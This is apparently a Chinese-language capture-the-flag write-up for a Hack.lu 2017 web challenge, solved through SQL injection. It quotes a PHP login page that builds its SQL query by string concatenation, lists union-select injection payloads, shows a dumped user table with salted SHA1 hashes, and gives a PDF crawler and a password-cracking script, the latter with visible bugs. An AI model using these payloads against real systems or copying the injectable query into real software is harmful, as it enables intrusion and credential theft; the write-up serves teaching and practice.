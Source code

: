 ## Hack.lu-2017
查看/robots.txt得到admin.php和login.php  
查看login.php发现源码提示  
`<!-- TODO: Remove ?debug-Parameter! -->`  
访问`/login.php?debug`看到源码  
```php
<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');
        
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }

    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?> 
```
在ID输入`' union select name,sql from sqlite_master--`，被重定向  
burp抓包查看回应  
看到set-cookie=
```sql
CREATE TABLE Users(
id int primary key,
name varchar(255),
password varchar(255),
hint varchar(255)
)
```
网上说仍在ID用limit唯一查询  
```sql
usr=%27 UNION SELECT id, id from Users limit 0,1--+&pw=chybeta  
usr=%27 UNION SELECT id, name from Users limit 0,1--+&pw=chybeta
usr=%27 UNION SELECT id, password from Users limit 0,1--+&pw=chybeta
usr=%27 UNION SELECT id, hint from Users limit 0,1--+&pw=chybeta
```
试了几次没用。。。可能理解错了。。。  

扔sqlmap...  
得到数据  
|id|hing|name|password|
|--|----|----|--------|
|1|my fav word in my fav paper?!| admin|3fab54a50e770d830c0416df817567662a9dc85c|
|2|my love is'?|fritze|54eae8935c90f467427f05e4ece82cf569f89507|
|3|the password is password|hansi|34b0bb7c304949f9ff2fc101eef0f048be10d3bd|  

根据hint: fav word in fav paper  
爬下网站上所有pdf，使用词汇爆破`sha1($pass."Salz!")`  

网上大神的爬虫脚本：
```py
import requests
import re
import os
import sys

re1 = '[a-fA-F0-9]{32,32}.pdf'
re2 = '[0-9\/]{2,2}index.html'

pdf_list = []
def get_pdf(url):
    global pdf_list 
    print url
    req = requests.get(url).text
    re_1 = re.findall(re1,req)
    for i in re_1:
        pdf_url = url+i
        pdf_list.append(pdf_url)
    re_2 = re.findall(re2,req)
    for j in re_2:
        new_url = url+j[0:2]
        get_pdf(new_url)
    return pdf_list
    # return re_2

pdf_list = get_pdf('http://111.198.29.45:37868/')
print pdf_list
# for i in pdf_list:
#     os.system('wget '+i)
```
爆破脚本：
```py
import os
import re
import sys

def get_pdf(dir):
    dir_list = os.listdir(dir)
    for i in dir_list:
        print i[-4:]
        if i[-4:]!='.pdf':
            dir_list.remove(i)
    return dir_list


def get_word_list(path):
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
    with open(path, 'rb') as fp:
        for page in PDFPage.get_pages(fp, set()):
            interpreter.process_page(page)
        text = retstr.getvalue()
    device.close()
    retstr.close()
    return text

def jiami(j):
    import hashlib
    sha = hashlib.sha1(j)
    encrypts = sha.hexdigest()
    return encrypts

pdf_list =  get_pdf('./')
for i in paf_list:
    word_list = get_word_list(i)
    for j in word_list:
        sha1 = jiami(j)
        if sha1 == '3fab54a50e770d830c0416df817567662a9dc85c':
            return j
```
拿到密码ThinJerboa  
登录看到flag：  
flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}